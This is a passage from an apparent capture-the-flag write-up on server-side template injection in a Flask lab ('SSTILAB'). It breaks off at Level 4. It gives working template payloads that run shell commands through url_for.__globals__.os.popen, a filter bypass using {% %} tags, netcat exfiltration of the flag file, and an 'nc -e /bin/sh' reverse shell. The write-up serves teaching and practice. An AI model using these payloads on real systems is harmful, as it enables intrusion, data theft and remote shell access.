 #### Alternative methods
* **Note**: This is a general method that works for most python SSTI
* However, we can do something specific on flask sites
* Because we know this is running flask, we know a function, [`url_for`](https://flask.palletsprojects.com/en/2.0.x/api/#flask.url_for), exists, which [imports os](https://github.com/pallets/flask/blob/main/src/flask/helpers.py)
	* Thus, we can do the same thing as before and run `url_for.__globals__.os.popen(<command>).read()`
* When we type in `{{ url_for.__globals__.os.popen('cat flag').read() }}`, we get the flag: `SSTILAB{enjoy_flask_ssti}`

## Level 2
* Immediately, it looks like even something as basic as `{{7 + 7}}` or `{{7}}` returns `Hello WAF`
	* Testing more, it looks like `{{` in particular is a blocked string

* We can bypass this, as flask has [more than one](https://flask.palletsprojects.com/en/2.0.x/tutorial/templates/) template type
	* For example, there is a `{%%}` template that is used for conditional checks
	* Unfortunately, this doesn't display anything, so our RCE is completely blind.

* To account for this, we're going to cat our output with the command `cat flag | nc 127.0.0.1 4444`
	* We can listen for a connection with `nc -lvnp 4444` locally

* Alternatively, we can also try to run a reverse shell using the command `nc -e /bin/sh 127.0.0.1 4444`
	* This serves a shell to localhost (our machine) on port 4444
	
* Here's the payload I used:
```python3
{% if url_for.__globals__.os.popen('cat flag | nc 127.0.0.1 4444').read() == 'blah' %}{% endif %}

```
#### Breaking down the payload
1. This checks to see if the condition `url_for.__globals__.os.popen('cat flag | nc 127.0.0.1 4444').read() == 'blah'` is true
	1. In this case, we know the output won't be 'blah', but the command still executes
2. Everything between `{% if %}` and `{% endif %}` is what would typically execute if the condition was true, but we don't have to worry about that here.

### Level 3
* Here, no matter what we input, we only see `wrong` or `correct` as an output
	* This is a classic blind SSTI problem
* Once again, we can use netcat to serve the file to us on our local machine
* It looks like there isn't any WAF on this level, so we can use roughly the same payload as last time:

```python3
{{ url_for.__globals__.os.popen('cat flag | nc 127.0.0.1 4444') }}
```

### Level 4
* For this level, it looks like `{{`, `}}`, `{{7 + 7}}`, and `{{7 * '7'}}` all work, but `[` and `]` are blocked 
* Thus, we can do exactly what we did in level 1:
